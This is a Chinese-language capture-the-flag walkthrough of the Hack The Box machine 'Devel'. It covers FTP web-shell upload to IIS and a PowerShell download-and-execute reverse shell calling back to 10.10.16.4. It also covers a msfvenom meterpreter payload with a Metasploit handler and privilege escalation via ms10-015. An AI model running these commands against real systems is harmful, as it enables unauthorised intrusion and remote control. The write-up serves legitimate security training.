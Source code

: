 ![image-20220402130554301](https://raw.githubusercontent.com/huamang/image/master/image-20220402130554301.png)

先用nmap进行扫描，开启了21和80端口

![image-20220402130912063](https://raw.githubusercontent.com/huamang/image/master/image-20220402130912063.png)

ftp可以直接访问

![image-20220402151228036](https://raw.githubusercontent.com/huamang/image/master/image-20220402151228036.png)

80端口的web服务看一下，是IIS的默认页面

![image-20220402151536232](https://raw.githubusercontent.com/huamang/image/master/image-20220402151536232.png)

也就对应着ftp进去的地方，这里我们可以直接传马上去执行命令

```
lcd /root/桌面/
put cmdexec.aspx
```

![image-20220402153630422](https://raw.githubusercontent.com/huamang/image/master/image-20220402153630422.png)

成功传上去

![image-20220402153731399](https://raw.githubusercontent.com/huamang/image/master/image-20220402153731399.png)

执行命令成功

![image-20220402153848718](https://raw.githubusercontent.com/huamang/image/master/image-20220402153848718.png)

试着反弹一个shell过来，这里使用的是Invoke-PowerShellTcp.ps1

把ip和端口配置好，然后开python服务把文件通过命令传上去

![image-20220402155442211](https://raw.githubusercontent.com/huamang/image/master/image-20220402155442211.png)

```powershell
powershell.exe "IEX(New-Object Net.WebClient).downloadString(‘http://10.10.16.4:8000/Invoke-PowerShellTcp.ps1')"
```

成功收到反弹的shell

![image-20220402161257212](https://raw.githubusercontent.com/huamang/image/master/image-20220402161257212.png)

三个用户都没有权限进入，只能提权了

![image-20220402163447244](https://raw.githubusercontent.com/huamang/image/master/image-20220402163447244.png)

systeminfo提取一下系统信息，再查一下提权漏洞

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          2/4/2022, 8:04:45 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.460 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.533 MB
Virtual Memory: In Use:    608 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::5005:d519:e7a8:eefd
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e
```

执行windows-exploit-suggester

![image-20220402163347926](https://raw.githubusercontent.com/huamang/image/master/image-20220402163347926.png)

上线msf打方便一点，生成一个后门

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4 LPORT=5555 -f exe > shell.exe
```

再传上去

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.4:8000/shell.exe', '.\shell.exe')"
```

![image-20220402164750535](https://raw.githubusercontent.com/huamang/image/master/image-20220402164750535.png)

配置一下msf

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.16.4
set lport 5555
```

收到shell

![image-20220402165126559](https://raw.githubusercontent.com/huamang/image/master/image-20220402165126559.png)

再直接用提权模块打

试着用ms13-005来打一下，但是发现打不通

![image-20220402170228532](https://raw.githubusercontent.com/huamang/image/master/image-20220402170228532.png)

search几个，发现ms10-015是有模块的，那就用这个模块来打

提权成功，直接到了system

![image-20220402170551539](https://raw.githubusercontent.com/huamang/image/master/image-20220402170551539.png)

一次拿了俩

![image-20220402170757817](https://raw.githubusercontent.com/huamang/image/master/image-20220402170757817.png)